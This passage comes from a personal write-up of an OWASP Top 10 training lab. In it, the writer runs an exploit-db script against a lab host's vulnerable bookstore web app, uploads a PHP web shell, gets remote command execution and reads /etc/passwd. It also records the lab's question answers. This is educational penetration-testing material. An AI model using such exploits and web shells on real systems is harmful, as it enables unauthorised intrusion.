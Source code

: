 >>It is also worth noting that it may not always be this easy, sometimes you will just be given a version number like in this case, but other times you may need to dig through the HTML source, or even take a lucky guess on an exploit script, but realistically if it is a known vulnerability, there's probably a way to discover what version the application is running.

>>That's really it, the great thing about this piece of the OWASP 10, is that the work is pretty much already done for us, we just need to do some basic research, and as a penetration tester, you're already doing that quite a bit :).

## Answer the questions below

59.Read the above!
>>No answer needed

----

# Task 29 [Severity 9] Components With Known Vulnerabilities - Lab
----

>>The following is a vulnerable application, all information you need to exploit it can be found online. 

>>Note: When you find the exploit script, put all of your input in quotes, for example "id"

```bash
# This is projectsworld bookstore webapp this as a unauthenticated remote code exection vulnerability.Go to exploitdb and search for it then run it to remote access. 

┌[rawbot@pwnbox]─[/home/rawbot/Downloads]
└╼[★]$ python3 rce.py http://10.10.40.92
> Attempting to upload PHP web shell...
> Verifying shell upload...
> Web shell uploaded to http://10.10.40.92/bootstrap/img/kAFHn0vEoR.php
> Example command usage: http://10.10.40.92/bootstrap/img/kAFHn0vEoR.php?cmd=whoami
> Do you wish to launch a shell here? (y/n): y
RCE $ 
RCE $ wc -c /etc/passwd
1611 /etc/passwd
```

## Answer the questions below

60.How many characters are in /etc/passwd (use wc -c /etc/passwd to get the answer)
>>1611 

----

# Task 30 [Severity 10] Insufficient Logging and Monitoring
----
